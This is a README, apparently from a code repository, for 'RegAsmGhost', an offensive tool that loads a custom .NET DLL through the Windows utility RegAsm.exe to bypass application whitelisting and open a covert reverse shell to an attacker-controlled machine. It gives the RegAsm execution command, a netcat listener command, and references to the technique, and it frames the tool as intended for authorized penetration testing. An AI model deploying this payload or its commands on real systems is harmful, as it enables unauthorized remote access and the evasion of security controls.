 # RegAsmGhost
RegAsmGhost is a stealthy reverse-shell payload leveraging the legitimate Windows utility RegAsm.exe for bypassing application whitelisting and evading detection by security tools.

## Description
RegAsmGhost utilizes a technique known as "Living-off-the-Land Binaries" (LOLBins), specifically using RegAsm.exe to execute arbitrary code via .NET assemblies. By invoking a custom DLL through the COM unregistration function (/U switch), RegAsmGhost establishes a covert reverse shell connection back to an attacker-controlled system.

This method is particularly useful for penetration testing, red teaming exercises, or demonstrating potential weaknesses in application whitelisting solutions.

## Usage
First, Adjust the IP address and port number directly in RegAsmGhost.cs to suit your testing environment.
Then, place the compiled DLL on the target machine and execute it using the following command:

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\RegAsm.exe /U .\RegAsmGhost.dll
```

Ensure your listener is active on your attacker machine:
```bash
nc -lvnp 9876
```

## References
* https://lolbas-project.github.io/lolbas/Binaries/Regasm/
* https://pentestlab.blog/2017/05/19/applocker-bypass-regasm-and-regsvcs/
* https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
* https://attack.mitre.org/techniques/T1218/

## Disclaimer
RegAsmGhost is intended for authorized security testing and educational purposes only. Unauthorized use is strictly prohibited. The author is not responsible for any misuse or damage caused by this tool.
